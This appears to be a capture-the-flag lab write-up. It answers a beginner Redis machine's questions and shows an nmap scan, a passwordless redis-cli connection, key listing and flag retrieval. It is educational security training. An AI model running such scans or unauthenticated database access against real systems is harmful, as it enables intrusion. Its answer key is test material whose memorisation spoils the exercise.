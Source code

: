 ## 1. Questions
- Task 1
	- Which TCP port is open on the machine?
		- `6379`
- Task 2
	- Which service is running on the port that is open on the machine?
		- `redis`
- Task 3
	- What type of database is Redis? Choose from the following options: (i) In-memory Database, (ii) Traditional Database
		- `In-memory Database`
- Task 4
	- Which command-line utility is used to interact with the Redis server? Enter the program name you would enter into the terminal without any arguments.
		- `redis-cli`
- Task 5
	- Which flag is used with the Redis command-line utility to specify the hostname?
		- `-h`
- Task 6
	- Once connected to a Redis server, which command is used to obtain the information and statistics about the Redis server?
		- `info`
- Task 7
	- What is the version of the Redis server being used on the target machine?
		- `5.0.7`
- Task 8
	- Which command is used to select the desired database in Redis?
		- `select`
- Task 9
	- How many keys are present inside the database with index 0?
		- `4`
- Task 10
	- Which command is used to obtain all the keys in a database?
		- `keys *`
- Submit Flag
	- Submit root flag
## 2. Tools Used
- Linux
- CLI
- nmap
- redis-cli
## 3. Approach
### nmap scan
- Useful resource
	- https://www.stationx.net/nmap-cheat-sheet/
```bash
sudo nmap -sSVC -Pn -n --disable-arp-ping -p- -T4 10.129.181.163
```
- Flags
	- `-sSVC` - SYN, service, and default sript scan.
	- `-Pn` - Exclude ICMP scanning.
	- `-n` - Exclude name resolution.
	- `--disable-arp-ping` - Exclude `arp` scanning.
	- `-p-` - Scan all ports
	- `-T4` - Use speed template `aggressive`.
- Result
```bash
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7
```
### Research common redis credentials
- https://hackviser.com/tactics/pentesting/services/redis#passwordless-authentication
- https://hackviser.com/tactics/pentesting/services/redis#common-credentials
### Test redis connection
- Useful resource
	- https://hackviser.com/tactics/pentesting/services/redis#passwordless-authentication
- Successfully connected without credentials
```bash
redis-cli -h 10.129.181.163
```
### Explore keys
- Useful resource
	- https://medium.com/@shaskumar/redis-scan-vs-keys-command-9df7f51b7162#:~:text=your%20use%20case.-,KEYS,-This%20is%20a
```bash
keys *
```
- Result
```
1) "numb"
2) "temp"
3) "stor"
4) "flag"
```
### Retrieve the flag
- Useful resource
	- https://redis.io/docs/latest/commands/get/
```bash
get flag
```
